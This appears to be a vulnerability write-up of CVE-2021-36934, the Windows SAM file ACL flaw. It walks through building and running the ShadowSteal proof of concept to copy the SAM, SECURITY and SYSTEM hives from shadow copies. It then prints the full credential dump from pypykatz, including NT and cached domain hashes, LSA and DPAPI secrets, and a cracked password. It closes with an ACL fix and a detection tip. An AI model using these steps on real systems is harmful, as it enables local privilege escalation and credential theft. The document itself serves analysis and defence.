






## 1. Vulnerability Description

Overly permissive ACLs on multiple system files, including the SAM file, allow built-in regular user groups to access SAM under certain circumstances, leading to local privilege escalation.

Windows >= 1809 (20H2 test failed, 1809 succeeded)

## 2. Brief Analysis

By comparing the SAM file permissions between the 20H2 and 1809 versions:

20H2:



1809:



On affected systems, the SAM file grants Read (R) and Execute (X) permissions to the Users group.

Of course, directly reading the SAM file may result in a "The process cannot access the file because it is being used by another process" error:



This file access issue can be bypassed using VSS (Volume Shadow Copy). Creating a shadow copy requires administrator privileges, but having any of the following features enabled could allow this vulnerability to be exploited to read the SAM:



Public POCs are all based on the System Restore feature.

## 3. Exploitation Conditions

The version must fall within the vulnerability's affected range (the official CVE states >= 1809, but 20H2 failed in my tests);
The System Protection feature must be enabled, and a system restore point must already exist. (In both versions I tested, this feature was not enabled by default.)

## 4. Test Machine

Windows 1809/20H2, test succeeded on 1809.

System Protection must be enabled on the target machine in advance:



Then manually create a restore point.

## 5. Exploitation Process

POC: [https://github.com/HuskyHacks/ShadowSteal](https://github.com/HuskyHacks/ShadowSteal)

```bash
sudo apt-get install nim mingw-w64
nimble install zippy argparse
git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
make && cd bin/
```

Place the compiled exe on the target machine and run `.\ShadowSteal -t` to export the SAM file.

```cmd
C:\Users\demouser\Desktop>.\ShadowSteal.exe -t
[*] Triage mode enabled.
[*] Executing ShadowSteal...
[*] Time: 202107230151
[*] Searching for shadow volumes on this host...
[*] Checking HarddiskVolumeShadowCopy10
[-] No :(
[*] Checking HarddiskVolumeShadowCopy9
[-] Nope
[*] Checking HarddiskVolumeShadowCopy8
[-] Not there
[*] Checking HarddiskVolumeShadowCopy7
[-] Not there
[*] Checking HarddiskVolumeShadowCopy6
[-] Nope
[*] Checking HarddiskVolumeShadowCopy5
[-] No
[*] Checking HarddiskVolumeShadowCopy4
[-] No
[*] Checking HarddiskVolumeShadowCopy3
[-] No :(
[*] Checking HarddiskVolumeShadowCopy2
[-] Nein
[*] Checking HarddiskVolumeShadowCopy1
[+] Hit!
[+] HarddiskVolumeShadowCopy1 identified.
[+] Highest Shadow Volume located: HarddiskVolumeShadowCopy1
[*] This likely has the most up to date credential information. Exploiting!
[+] Exfiltrating the contents of the config directory...
[+] Hives extracted!
[*] Compressing... 202107230151_ShadowSteal.zip
[+++] SUCCESS!
[+++] SAM, SECURITY, and SYSTEM Hives have been extracted to 202107230151_ShadowSteal.zip
 
[*] Done! Happy hacking!
 
C:\Users\demouser\Desktop>
```

Extract the hashes from the three files in the generated archive using mimikatz:

```bash
λ git main* → pypykatz registry SYSTEM_2021-07-23T13:30:06+08:00 --sam SAM_2021-07-23T13:30:06+08:00 --security SECURITY_2021-07-23T13:30:06+08:00
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: d48a183c059ae1cb952006b921c26806
============== SAM hive secrets ==============
HBoot Key: 706fe00b6326570dfe0482e07b9cb23410101010101010101010101010101010
Administrator:500:aad3b435b51404eaaad2b435b51408ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:dacba5694517e603771739b2ad409695:::
demouser:1001:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
============== SECURITY hive secrets ==============
Iteration count: 10240
Secrets structure format : VISTA
LSA Key: 40721acd84c4b68c5317bc504597b3414e09ddce01377180a8829d9a9bc9a779
NK$LM Key: 40000000000000000000000000000000b4a04dd3477c10bc2fe91cd6de27b109c640d9449e5402e1554e694a56b498bf0190d8adf6c270fbca57218ddb301efa11099e667a2c7bd27220c19f262c00431b6b150cb6f29988c7bede97575d9866
TEST.COM/demo:$DCC2$10240#demo#d7e88c4995b9d0607bfc7aeefa6fb6d5
TEST.COM/Administrator:$DCC2$10240#Administrator#b2071403e7735baeedd89100d54ebb5d
=== LSA Machine account password ===
History: False
NT: 5d7694a018e7f717177d982f4f81e6f8
Password(hex): 6a00370049004100750064002f0042002e004900260050004500730044006a007200420033006e0073003600350027006f004600410042003e005d003f004c004d00250079007a0053006f00670052005e002600540072004e0054006c006600680024007200730077006d00790068007a0035002d003e004800710067004e0044005d005e004f0077003e006f006c006000230056003300600051004f002c002b00500046006f0068002e00230032002a006c0065003900370046005c006d002b003e006e0075004b006f0034005f003d0049002b005e0058006b003b005f002400610028006400490054003a005900
Kerberos password(hex): 6a37494175642f422e4926504573446a7242336e733635276f4641423e5d3f4c4d25797a536f67525e2654724e546c6668247273776d79687a352d3e4871674e445d5e4f773e6f6c6023563360514f2c2b50466f682e23322a6c653937465c6d2b3e6e754b6f345f3d492b5e586b3b5f2461286449543a59
=== LSA Machine account password ===
History: True
NT: 5d7694a018e7f717177d982f4f81e6f8
Password(hex): 6a00370049004100750064002f0042002e004900260050004500730044006a007200420033006e0073003600350027006f004600410042003e005d003f004c004d00250079007a0053006f00670052005e002600540072004e0054006c006600680024007200730077006d00790068007a0035002d003e004800710067004e0044005d005e004f0077003e006f006c006000230056003300600051004f002c002b00500046006f0068002e00230032002a006c0065003900370046005c006d002b003e006e0075004b006f0034005f003d0049002b005e0058006b003b005f002400610028006400490054003a005900
Kerberos password(hex): 6a37494175642f422e4926504573446a7242336e733635276f4641423e5d3f4c4d25797a536f67525e2654724e546c6668247273776d79687a352d3e4871674e445d5e4f773e6f6c6023563360514f2c2b50466f682e23322a6c653937465c6d2b3e6e754b6f345f3d492b5e586b3b5f2461286449543a59
=== LSA DPAPI secret ===
History: False
Machine key (hex): 93545f81515ff9fdab411086a76a036ef01c50c8
User key(hex): 8c64aaf5e7411b3ab01a795f32bc0daa16c0cd92
=== LSA DPAPI secret ===
History: True
Machine key (hex): e32bd15e3ee27c47721a2760b87998c6f6ba69fd
User key(hex): 5402ec8e185cc7c35d117e6653f8cbae6b7d9878
=== LSASecret NL$KM ===
 
History: False
Secret:
00000000:  b4 a0 4d d3 47 7c 10 bc  2f e9 1c d6 de 27 b1 09   |..M.G|../....'..|
00000010:  c6 40 d9 44 9e 54 02 e1  55 4e 69 4a 56 b4 98 bf   |.@.D.T..UNiJV...|
00000020:  01 90 d8 ad f6 c2 70 fb  ca 57 21 8d db 30 1e fa   |......p..W!..0..|
00000030:  11 09 9e 66 7a 2c 7b d2  72 20 c1 9f 26 2c 00 43   |...fz,{.r ..&,.C|
=== LSASecret NL$KM ===
 
History: True
Secret:
00000000:  b4 a0 4d d3 47 7c 10 bc  2f e9 1c d6 de 27 b1 09   |..M.G|../....'..|
00000010:  c6 40 d9 44 9e 54 02 e1  55 4e 69 4a 56 b4 98 bf   |.@.D.T..UNiJV...|
00000020:  01 90 d8 ad f6 c2 70 fb  ca 57 21 8d db 30 1e fa   |......p..W!..0..|
00000030:  11 09 9e 66 7a 2c 7b d2  72 20 c1 9f 26 2c 00 43   |...fz,{.r ..&,.C|
```

The NT hash for demouser is 32ed87bdb5fdc5e9cba88547376818d4. Through online cracking, the password is found to be 123456:



## 6. Vulnerability Fix

Reference: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)

No patch is available yet. The fix can be applied by manually modifying the ACLs of all files in the config directory:

```cmd
icacls %windir%\system32\config\*.* /inheritance:e
```

Then delete the existing system restore points and recreate them. (Or simply disable System Protection.)

## 7. Vulnerability Detection

Determine whether the Users group has read access to the SAM file based on its ACL.

## 8. References

- [https://github.com/HuskyHacks/ShadowSteal](https://github.com/HuskyHacks/ShadowSteal)
- [https://twitter.com/jonasLyk/status/1417205166172950531](https://twitter.com/jonasLyk/status/1417205166172950531)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)
- [https://docs.microsoft.com/zh-cn/windows-server/storage/file-server/volume-shadow-copy-service](https://docs.microsoft.com/zh-cn/windows-server/storage/file-server/volume-shadow-copy-service)
